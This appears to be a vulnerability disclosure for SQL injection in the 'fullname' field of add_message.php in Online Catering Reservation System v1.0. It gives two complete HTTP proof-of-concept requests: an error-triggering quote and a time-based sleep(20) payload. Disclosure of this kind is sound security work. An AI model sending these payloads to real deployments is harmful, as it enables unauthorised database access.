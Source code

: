 # Online Catering Reservation System v1.0 has SQL injection

BUG_Author:jackswordsz

Vulnerability File: /reservation/add_message.php

POST parameter 'fullname' exists SQL injection vulnerability

Payload1:fullname=1'&email=2%40gmail.com&subject=3&message=4

```
POST /reservation/add_message.php HTTP/1.1
Host: localhost
Content-Length: 51
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/reservation/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close

fullname=1'&email=2%40gmail.com&subject=3&message=4
```

An error occurred in the sql statement

![image](https://github.com/jackswordsz/bug_report/blob/main/picture/jackswordsz1.png)

Payload2:fullname=1' and (select 1 from (select(sleep(20)))b) and 'a'='a&email=2%40gmail.com&subject=3&message=4

```
POST /reservation/add_message.php HTTP/1.1
Host: localhost
Content-Length: 103
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/reservation/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close

fullname=1' and (select 1 from (select(sleep(20)))b) and 'a'='a&email=2%40gmail.com&subject=3&message=4
```

The server's response time is 20 seconds

![image](https://github.com/jackswordsz/bug_report/blob/main/picture/jackswordsz2.png)
